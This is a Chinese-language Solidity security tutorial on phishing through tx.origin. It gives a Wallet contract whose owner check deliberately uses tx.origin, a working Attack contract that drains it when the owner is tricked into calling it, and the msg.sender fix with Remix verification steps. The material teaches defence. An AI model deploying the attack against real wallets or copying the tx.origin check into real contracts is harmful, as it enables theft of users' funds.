



# 73.Phishing with tx.origin
## msg.sender和tx.origin有什么区别？
如果合约A调用B，B调用C，在C中msg.sender是B，tx.origin是A。

## 漏洞
恶意合约可以欺骗合约所有者调用只有所有者才能调用的函数。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
Wallet是一个简单的合约，只有所有者才能将以太币转移到另一个地址。
Wallet.transfer()使用tx.origin来检查调用者是否为所有者。
让我们看看如何攻击这个合约。
*/

/*
1. Alice部署Wallet并存入10个以太币
2. Eve部署Attack并传入Alice的Wallet合约地址
3. Eve欺骗Alice调用Attack.attack()
4. Eve成功从Alice的钱包中窃取了以太币

发生了什么？
Alice被欺骗调用Attack.attack()。在Attack.attack()内部，它请求将Alice钱包中的所有资金转移到Eve的地址。
由于Wallet.transfer()中的tx.origin等于Alice的地址，它授权了转移。钱包将所有以太币转移到了Eve。
*/

contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
### 预防技术
使用msg.sender代替tx.origin

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{ value: _amount }("");
  require(sent, "Failed to send Ether");
}
```

## remix验证
1. 署Wallet合约并转入10 eth

2. 部署attack合约传入Wallet合约地址为参数，调用attack合约，可以看到，盗取了eth

3. 尝试使用msg.sender代替tx.origin，同样的方式用attack合约攻击，验证可看到攻击失败
